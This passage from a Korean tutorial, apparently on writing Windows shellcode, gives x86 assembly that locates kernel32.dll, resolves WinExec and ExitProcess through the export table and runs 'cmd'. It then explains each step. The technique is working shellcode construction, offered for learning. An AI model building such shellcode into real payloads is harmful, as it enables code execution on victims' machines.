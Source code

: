 ```
		mov ebx, [ebx]       // kernel32.dll InMemoryOrderLinks
		mov ebx, [ebx+0x10]	 // ebx = kernel32.dll base address

		// export table
		mov edi, [ebx+0x3c]  // PE Header
		add edi, ebx
		mov edi, [edi+0x78]	 
		add edi, ebx
		mov [ebp+0x18], edi  // Export Directory
		mov esi, [edi+0x20]  // Export Name Table
		add esi, ebx
		mov ecx, [edi+0x24]	  
		add ecx, ebx         // Ordinal Table
		xor edx, edx
		pushad

		// WinExec 함수 주소 구함
		xor edi, edi
		mov di, 0x2b3
		call get_func_addr
		mov	[ebp+0x20], eax
		popad

		// ExitProcess 함수 주소 구함
		xor edi, edi
		add di, 0x479
		call get_func_addr
		mov	[ebp+0x24], eax

		// call WinExec, WinExec 실행
		xor eax, eax  // eax = 0
		push eax
		lea	eax, [ebp+0xc]  // cmd
		push eax
		call [ebp+0x20] // WinExec('cmd',0)

    // ExitProcess 실행
		xor eax,eax
		push eax
		call [ebp+0x24] // ExitProcess(0)
	}
}
```
> 위 코드를 컴파일하면 정상적으로 WinExec 함수를 호출하여 cmd 창이 실행된다.

위 코드를 한 단계씩 설명하겠다. 요약하자면 아래와 같다.

- **(1) kernel32.dll Base 주소 값을 얻어온다.**
- **(2) Export Directory, Name, Ordinals, Address Table 주소를 구한다.**
- **(3) (2)를 이용하여 WinExec 함수의 주소를 구한다.**
- **(4) (2)를 이용하여 ExitProcess 함수의 주소를 구한다.**
- **(5) WinExec('cmd', 0) 함수를 실행한다.**
- **(6) ExitProcess(0) 함수를 실행한다.**
> 참고로, ExitProcess 함수는 쉘코드 실행 후, 에러 메시지를 띄우지 않고 정상적으로 프로세스를 종료시키기 위해서다.
